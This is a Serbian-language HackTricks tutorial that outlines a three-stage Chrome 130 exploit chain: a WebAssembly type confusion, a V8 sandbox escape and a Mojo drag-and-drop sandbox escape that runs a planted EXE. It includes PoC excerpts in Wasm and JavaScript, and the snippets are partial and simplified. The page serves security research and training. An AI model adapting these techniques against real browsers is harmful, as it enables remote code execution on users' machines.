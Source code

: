 # Chrome Exploiting

{{#include ../banners/hacktricks-training.md}}

> Ova stranica pruža visok nivo, ali **praktičan** pregled modernog "full-chain" eksploatacionog toka rada protiv Google Chrome 130, zasnovanog na seriji istraživanja **“101 Chrome Exploitation”** (Deo-0 — Uvod).
> Cilj je pružiti pentesterima i razvojnim inženjerima eksploatacija minimalno pozadinsko znanje potrebno za reprodukciju ili prilagođavanje tehnika za sopstvena istraživanja.

## 1. Chrome Architecture Recap
Razumevanje napadačke površine zahteva poznavanje mesta gde se kod izvršava i koje se sandboksove primenjuju.
```
+-------------------------------------------------------------------------+
|                             Chrome Browser                              |
|                                                                         |
|  +----------------------------+      +-----------------------------+    |
|  |      Renderer Process      |      |    Browser/main Process     |    |
|  |  [No direct OS access]     |      |  [OS access]                |    |
|  |  +----------------------+   |      |                             |    |
|  |  |    V8 Sandbox        |   |      |                             |    |
|  |  |  [JavaScript / Wasm] |   |      |                             |    |
|  |  +----------------------+   |      |                             |    |
|  +----------------------------+      +-----------------------------+    |
|               |           IPC/Mojo              |                       |
|               V                                    |                     |
|  +----------------------------+                   |                     |
|  |        GPU Process         |                   |                     |
|  |  [Restricted OS access]    |                   |                     |
|  +----------------------------+                   |                     |
+-------------------------------------------------------------------------+
```
Layered defence-in-depth:

* **V8 sandbox** (Isolate): dozvole za memoriju su ograničene kako bi se sprečilo proizvoljno čitanje/pisanje iz JITed JS / Wasm.
* **Renderer ↔ Browser split** obezbeđen putem **Mojo/IPC** razmene poruka; renderer *nema* pristup nativnom FS/mreži.
* **OS sandboxes** dodatno sadrže svaki proces (Windows Integrity Levels / `seccomp-bpf` / macOS sandbox profili).

*Remote* napadač stoga treba **tri** uzastopne primitive:

1. Korupcija memorije unutar V8 da bi dobio **proizvoljno RW unutar V8 heap-a**.
2. Druga greška koja omogućava napadaču da **pobegne iz V8 sandbox-a u punu memoriju renderer-a**.
3. Konačni izlaz iz sandbox-a (često logika umesto korupcije memorije) za izvršavanje koda **van Chrome OS sandbox-a**.

---

## 2. Stage 1 – WebAssembly Type-Confusion (CVE-2025-0291)

Greška u TurboFan-ovoj **Turboshaft** optimizaciji pogrešno klasifikuje **WasmGC reference types** kada se vrednost proizvodi i konzumira unutar *jednog osnovnog blok petlje*.

Efekat:
* Kompajler **preskoči proveru tipa**, tretirajući *referencu* (`externref/anyref`) kao *int64*.
* Kreirani Wasm omogućava preklapanje zaglavlja JS objekta sa podacima pod kontrolom napadača → <code>addrOf()</code> & <code>fakeObj()</code> **AAW / AAR primitives**.

Minimal PoC (izvod):
```WebAssembly
(module
(type $t0 (func (param externref) (result externref)))
(func $f (param $p externref) (result externref)
(local $l externref)
block $exit
loop $loop
local.get $p      ;; value with real ref-type
;; compiler incorrectly re-uses it as int64 in the same block
br_if $exit       ;; exit condition keeps us single-block
br   $loop
end
end)
(export "f" (func $f)))
```
Optimizacija okidača i prskanje objekata iz JS:
```js
const wasmMod = new WebAssembly.Module(bytes);
const wasmInst = new WebAssembly.Instance(wasmMod);
const f = wasmInst.exports.f;

for (let i = 0; i < 1e5; ++i) f({});   // warm-up for JIT

// primitives
let victim   = {m: 13.37};
let fake     = arbitrary_data_backed_typedarray;
let addrVict = addrOf(victim);
```
Outcome: **arbitrary read/write within V8**.

---

## 3. Stage 2 – Izlazak iz V8 Sandbox-a (issue 379140430)

Kada se Wasm funkcija kompilira u tier-up, generiše se **JS ↔ Wasm wrapper**. Greška u neslaganju potpisa uzrokuje da wrapper piše izvan kraja pouzdane **`Tuple2`** objekta kada se Wasm funkcija ponovo optimizuje *dok je još na steku*.

Prepisivanje 2 × 64-bitnih polja `Tuple2` objekta omogućava **read/write na bilo kojoj adresi unutar Renderer procesa**, efikasno zaobilazeći V8 sandbox.

Ključni koraci u eksploataciji:
1. Dovesti funkciju u **Tier-Up** stanje naizmeničnim korišćenjem turbofan/baseline koda.
2. Aktivirati tier-up dok se drži referenca na steku (`Function.prototype.apply`).
3. Koristiti Stage-1 AAR/AAW za pronalaženje i korupciju susednog `Tuple2`.

Identifikacija wrapper-a:
```js
function wrapperGen(arg) {
return f(arg);
}
%WasmTierUpFunction(f);          // force tier-up (internals-only flag)
wrapperGen(0x1337n);
```
Nakon korupcije posedujemo potpuno funkcionalnu **renderer R/W primitivu**.

---

## 4. Faza 3 – Renderer → OS Sandbox Escape (CVE-2024-11114)

**Mojo** IPC interfejs `blink.mojom.DragService.startDragging()` može se pozvati iz Renderera sa *delimično poverljivim* parametrima. Kreiranjem `DragData` strukture koja pokazuje na **arbitrarni put do fajla**, renderer ubeđuje pregledač da izvrši *nativno* prevlačenje i ispuštanje **van renderer sandbox-a**.

Zloupotrebom ovoga možemo programatski “prevući” maliciozni EXE (prethodno postavljen na lokaciju koja se može pisati) na Desktop, gde Windows automatski izvršava određene tipove fajlova nakon ispuštanja.

Primer ( pojednostavljeno):
```js
const payloadPath = "C:\\Users\\Public\\explorer.exe";

chrome.webview.postMessage({
type: "DragStart",
data: {
title: "MyFile",
file_path: payloadPath,
mime_type: "application/x-msdownload"
}
});
```
Nema dodatne korupcije memorije – **logička greška** nam omogućava izvršavanje proizvoljnih datoteka sa privilegijama korisnika.

---

## 5. Tok pune veze

1. **Korisnik posećuje** zlonamernu veb stranicu.
2. **Faza 1**: Wasm modul zloupotrebljava CVE-2025-0291 → V8 heap AAR/AAW.
3. **Faza 2**: Neusklađenost omotača korumpira `Tuple2` → izlazak iz V8 sandboxes.
4. **Faza 3**: `startDragging()` IPC → izlazak iz OS sandboxes & izvršavanje payload-a.

Rezultat: **Daljinsko izvršavanje koda (RCE)** na hostu (Chrome 130, Windows/Linux/macOS).

---

## 6. Postavka laboratorije i debagovanja
```bash
# Spin-up local HTTP server w/ PoCs
npm i -g http-server
git clone https://github.com/Petitoto/chromium-exploit-dev
cd chromium-exploit-dev
http-server -p 8000 -c -1

# Windows kernel debugging
"C:\Program Files (x86)\Windows Kits\10\Debuggers\x64\windbgx.exe" -symbolpath srv*C:\symbols*https://msdl.microsoft.com/download/symbols
```
Korisne zastavice prilikom pokretanja *razvojne* verzije Chrome-a:
```bash
chrome.exe --no-sandbox --disable-gpu --single-process --js-flags="--allow-natives-syntax"
```
---

## Zaključci

* **WebAssembly JIT greške** ostaju pouzdan ulaz – tipni sistem je još uvek mlad.
* Dobijanje druge greške u korupciji memorije unutar V8 (npr. neslaganje omotača) značajno pojednostavljuje **V8-sandbox bekstvo**.
* Logičke slabosti u privilegovanim Mojo IPC interfejsima često su dovoljne za **konačno bekstvo iz sandboks-a** – obratite pažnju na *ne-memorijske* greške.



## Reference
* [101 Chrome Exploitation — Part 0 (Preface)](https://opzero.ru/en/press/101-chrome-exploitation-part-0-preface/)
* [Chromium sigurnosna arhitektura](https://chromium.org/developers/design-documents/security)
{{#include ../banners/hacktricks-training.md}}
